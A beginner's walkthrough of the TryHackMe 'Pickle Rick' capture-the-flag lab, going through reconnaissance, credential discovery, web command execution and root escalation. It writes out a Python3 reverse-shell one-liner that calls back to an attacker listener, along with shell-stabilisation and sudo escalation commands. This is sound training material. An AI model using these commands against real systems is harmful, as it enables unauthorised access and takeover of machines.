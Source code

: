 ```yaml
---
title: Pickle Rick walkthrough on TryHackMe
description: Pickle Rick walkthrough on TryHackMe
image: /walkthroughs/images/picklerick0.png
---
```


# Pickle Rick
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/picklerick) to the Pickle Rick CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

![](images/picklerick0.png)

<br>

## Objectives

This CTF requires that you find the following:
- What is the first ingredient Rick needs?
- What is the second ingredient Rick needs?
- What is the third ingredient Rick needs?

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN rick.nmap 10.10.172.250
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:78:34:72:cf:f7:19:26:15:12:c2:4e:9e:7f:c9:d9 (RSA)
|   256 4c:25:1a:7a:25:87:a5:7e:18:12:07:21:30:03:98:ad (ECDSA)
|_  256 76:58:15:13:d9:04:f3:b2:e0:b9:41:14:e2:bd:b9:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

<br>

## Website

Not having much to go on at this point I start with the website:

![](images/picklerick1.png)

It seems Rick needs our help finding 3 secret ingredients or he'll be stuck as a pickle forever, and we can't have that!

Viewing the page source code shows an interesting comment:
```
<!--

    Note to self, remember username!

    Username: <REDACTED>

  -->
```
Now we have a username so that's a start. Let's check to see if there is anything else interesting on the website by running a `gobuster` scan:
```
gobuster dir -u http://10.10.172.250 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o rick.buster -x php,txt,html 2& > /dev/null
```
The scan shows a few additional things to check out:
```
/assets               (Status: 200) [Size: 2192]
/denied.php           (Status: 200) [Size: 882] 
/login.php            (Status: 200) [Size: 882] 
/portal.php           (Status: 200) [Size: 882] 
/robots.txt           (Status: 200) [Size: 17]
```
/assets does not provide anything useful that I can see, but does have some pictures if you want to check them out.

Looking at robots.txt shows only a short string of text:
```
<REDACTED>
```

The denied.php and login.php files give you a login page. After logging in you are redirected to portal.php.

![](images/picklerick2.png)

Given we have a username and a string of text from the robots.txt file let's try those as a login combo on the page.

We're in! Of the menu bar options at the top it looks like only the Commands tab is useful to us:

![](images/picklerick3.png)

Running the `ls` command displays a list of files so we are able to execute commands directly on the webserver via this interface:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
Running `cat Sup3rS3cretPickl3Ingred.txt` displays an error saying the command is disabled so we can't display the file contents that way.

I then tried `less Sup3rS3cretPickl3Ingred.txt` as a work around which was successful and gives us the answer for the first ingredient:
```
<REDACTED>
```

`less clue.txt` shows:
```
Look around the file system for the other ingredient.
```
1 down and 2 to go!

<br>

## Getting a shell

Still on the website I check to see if python3 is available with `which python3` and it is:
```
/usr/bin/python3
```

Let's see if we can get a reverse shell here. I set up a listener on my system with `nc -nvlp 4444`:
```
nc -nvlp 4444
listening on [any] 4444 ...
```

And then find a reverse shell payload on [**revshells.com**](https://www.revshells.com/). I'm going with Python3 #1.
```
export RHOST="<YOUR IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After executing the command above we get a shell back on our listener!
```
connect to [<MY IP>] from (UNKNOWN) [10.10.172.250] 53856
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-172-250
$
```

Let's stabilize the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-172-250:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-172-250:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                       
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 4444

www-data@ip-10-10-172-250:/var/www/html$
```

Running an `ls` command displays the files from above and you can `cat Sup3rS3cretPickl3Ingred.txt` and `cat clue.txt` at this point if you didn't already display them on the website.

Taking a look at the /home directory shows us a directory for **rick**, and looking inside gives us the answer for the second ingredient:
```
www-data@ip-10-10-172-250:/var/www/html$ cd /home
www-data@ip-10-10-172-250:/home$ ls
rick  ubuntu
www-data@ip-10-10-172-250:/home$ cd rick
www-data@ip-10-10-172-250:/home/rick$ ls
second ingredients
www-data@ip-10-10-172-250:/home/rick$ cat "second ingredients"  
<REDACTED>
```

Now let's see about privilege escalation. Anything listed on `sudo -l`?
```
www-data@ip-10-10-172-250:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-172-250.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-172-250.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, that was easy! No need to run linpeas or anything when we can run all commands as root with sudo. Let's `sudo /bin/bash` to get root:
```
www-data@ip-10-10-172-250:/home/rick$ sudo /bin/bash
root@ip-10-10-172-250:/home/rick#
```

Let's take a look at the /root directory:
```
root@ip-10-10-172-250:/home/rick# cd /root
root@ip-10-10-172-250:~# ls
3rd.txt  snap
root@ip-10-10-172-250:~# cat 3rd.txt
3rd ingredients: <REDACTED>
```

And we now have all 3 ingredients allowing us to get Rick out of the pickle he's in. Ok that was a terrible joke I admit.

![](images/picklerick4.png)

Many thanks to **TryHackMe** for creating and hosting this fun Rick and Morty themed CTF. I had a blast going through it.

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
